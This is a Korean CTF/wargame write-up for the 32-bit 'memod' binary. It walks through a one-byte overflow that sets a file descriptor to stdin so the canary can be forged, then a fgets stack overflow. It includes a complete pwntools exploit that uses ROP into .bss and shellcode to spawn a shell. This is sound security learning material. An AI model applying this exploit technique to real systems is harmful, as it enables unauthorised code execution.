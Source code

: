 ```yaml
---
layout: post
title: "memod"
comments : true
category : War Game
---
```


# 문제
***

memod 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

file 명령어 결과는 다음과 같다.
```
memod: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=0609d9d923e140f16f00fe4df883f8250b195222, not stripped
```

바이너리 코드
```
...
char s; // [ebp-128h]
char file[32]; // [ebp-28h]
int fd; // [ebp-8h]
int s2;
...
for(i=0;i<=32;++i)
{
    s=getchar();
    if((unsigned int)(s-48) > 9)
    {
        file[i]=0;
        break;
    }
    file[i]=s;
}
if(!file[0])
{
    ...
    exit(0);
}
read(fd,&canary_backup,4u);
s2=canary_backup;
...
fgets(&s,512,stdin);
...
if(memcmp(&canary_backup,&s2,4u))
{
    ...
    exit(-1);
}
return 0
```

for문에서 1byte overflow가 발생한다. 이를 통해서 fd에 1byte 값을 덮어쓸 수 있기 때문에 fd를 내가 원하는 값으로 변경할 수 있다. (파일 디스크립터는 사용하지 않는 가장 작은 파일 디스크립터 번호를 할당받는다. 0,1,2는 stdin, stdout, stderr) 


fgets 함수에서 buffer overflow가 발생한다. 

그리고 NX가 diabled되어 있기 때문에 bss 영역에서 shellcode를 실행할 수 있다.
## exploit 방법
1. 1byte overflow를 통해서 fd를 0으로 바꾼다. 이를 통해서 canary값을 내 입력값으로 바꿀 수 있다.
2. canary값을 알고 있기 때문에 fgets 함수에서 발생하는 buffer overflow로 eip를 컨트롤 할 수 있다.

# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round2/memod/memod"

p=process(file_path)

read_plt=0x80484f0
pppr=0x08048836
bss_sec=0x8049b90

shell = asm(shellcraft.sh())

pay="7"*32+"A"  # 1byte bof -> fd = 0

p.send(pay)
time.sleep(0.5)
p.send("AAAA") # canary = 0x41414141

p.recvuntil(";p\n")

pay2="A"*300
pay2+=p32(read_plt)
pay2+=p32(pppr)
pay2+=p32(0)
pay2+=p32(bss_sec)
pay2+=p32(0x100)
pay2+=p32(bss_sec)

p.sendline(pay2)
time.sleep(0.5)
p.send(shell)

p.interactive()
```

# 알게 된 것
***
1. fgets / gets / scanf/ getchar 등의 함수는 입력 버퍼를 가지고 있다. 따라서 입력 버퍼에 저장되어 있는 입력값들을 입력으로 받는다. 하지만 read(0,&buf,0x100) 는 입력 버퍼에서 입력값을 읽어오는 것이 아니라 해당 함수가 호출된 이후에 들어오는 입력을 받는다. <br/>
=> fgets와 같은 함수로 입력을 받은 뒤 바로 read함수를 호출하는 경우 send 사이에 time.sleep()을 넣어줘야 한다.

2. fgets, scanf, gets는 엔터까지 입력을 받기 때문에 .sendline으로 입력을 넣어줘야 한다.
   getchar, read 함수는 .send로 입력을 넣어준다.
